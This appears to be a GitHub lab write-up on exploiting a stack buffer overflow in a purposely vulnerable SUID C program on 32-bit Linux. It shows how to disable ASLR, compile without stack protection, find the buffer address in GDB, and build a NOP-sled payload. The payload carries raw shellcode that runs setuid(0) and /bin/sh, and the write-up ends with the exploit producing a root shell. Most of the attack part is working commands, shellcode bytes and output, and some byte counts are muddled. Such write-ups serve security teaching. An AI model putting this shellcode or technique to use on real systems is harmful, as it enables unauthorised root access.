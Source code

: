 # Stack based buffer-overflow on Cent OS( any x84 linux OS )

Stack grows from high address to low address (while buffer grows from low - high address).

Vuln.c is a c program that has a function strcopy (buf, name) that will allow more read of bytes than the buffer size (100) from the second argument.

```python
  void func(char *name){
    char buf[100];
    strcpy(buf, name); // The following statement has a buffer overflow problem
    printf("Welcome %s\n", buf);
  }
```
The function strcpy() does not check whether the boundary of buf[] has reached. It simply copies the contents from name to buffer[] and only stops when seeing the end-of-string character ‘\0’. If the string pointed by buf has more than 100 chars, contents in the memory above buf [] will be overwritten by the characters at the end of name.  So, this leads to stack-based buffer overflow and we can overwrite anything that can come after that buffer. Thus, we know the vulnerability and we can prepare an exploit.

<b>Address space layout randomization (ASLR)</b> causes the addresses of the stack to be randomized. This causes a lot of difficulty in predicting addresses while exploitation. As ASLR is disabled we are sure that no matter how many times the binary is run, the address of buf will not change. Thus, ASLR is turned off on root first by the command:
```python
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

•	Vuln.c is compiled in root using: 
```python
gcc vuln.c -o vuln -fno-stackprotector -z execstack
```
-g tells GCC to add extra information for GDB

-fno-stackprotector is a flag to turn off stack protection mechanism

-z execstack makes the vuln file stack executable

•	I set permission of the vuln file as an executable binary that is owned by root, has the suid bit set to be user executable, and is vulnerable to buffer overflow. Mainly, it is set like this for debugging by the other user in gdb( GNU debugger).

# Procedures in GDB:
DO THESE PROCEDURES BELOW BY ANY OTHER USER THAN ROOT TO GAIN ROOT SHELL...

<b>a. Find out where the start of the buffer is in memory: </b>

```python
(gdb) print $ebp
$1 = (void *) 0xbfffeb38
(gdb) print $ebp - 0x6c
$2 = (void *) 0xbfffeacc
(gdb) quit
A debugging session is active.
```

 buf lies at ebp - 0x6c.
 0x6c is 108(100 + framept(4-current+4-prev) in decimal, Disassemble main method and it will show dump of registers. 
 Look for the part where is function call: ebp is the base of stack pointer which I will use instead of $esp. However, EBP is a pointer to the top of the stack when the func() is first called. So, I thought this as offset bytes before.

print $ebp - 0x6c will give start of the buffer.

<b>b. Fill the register with appropriate size NOP (X90)</b>

We fill the first 40 bytes with NOP instructions, constructing a NOP Sled. It makes the processor jump to the address of buf (taken from gdb’s output) minus x bytes to get somewhere in the middle of the NOP sled.

Start of buffer: 0xbfffeacc - some bytes(172- ac in hex)... 0xbfffea20(roughly I used this arbitrary bytes to get somewhere in the middle of the NOP sled)  

[ Intel CPU’ we have endian structure: \x20\xea\xff\xbf ]

The reason for inserting a NOP sled before the shellcode is that now we can transfer execution flow to anyplace within these 40 bytes. The processor will keep on executing the NOP instructions until it finds the shellcode. We need not know the exact address of the shellcode. This takes care of the problem of not knowing the address of buf exactly and increases chances of getting into our shell code.

<b>c. We can fill the rest 47 (112 - 25 - 40) bytes with random data, say the ‘A’ character. </b>

This is a part to play around & 47 As might be overestimate...And return address starts after the first 112 bytes of buf. 108 +4( roughly because I ran the debugger with 104 As)
 
 Final payload structure: [40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xbfffea20]

Prepared 25 byte long shell code which tells VM to launch a shell: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*37 + "\x20\xea\xff\xbf"')
```
( 37 As was the right amount for test run! )... Not 47. (But, try arbitrary As here)

Note that above part have code execution but not root shell access. It happens due to the protection in /bin/bash. We remove the restriction by:
setuid(0) + setgid(0) + execve("/bin/sh", ["/bin/sh", NULL])
Thus, we have 37 byte shell code to gain root access:

\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*27 + "\x20\xea\xff\xbf"')
Welcome ????????????????????????????????????????jX1?̀j.XS̀1?j
                                                           XRh//shh/bin??RS??̀AAAAAAAAAAAAAAAAAAAAAAAAAAA
sh-3.2# whoami
root
```
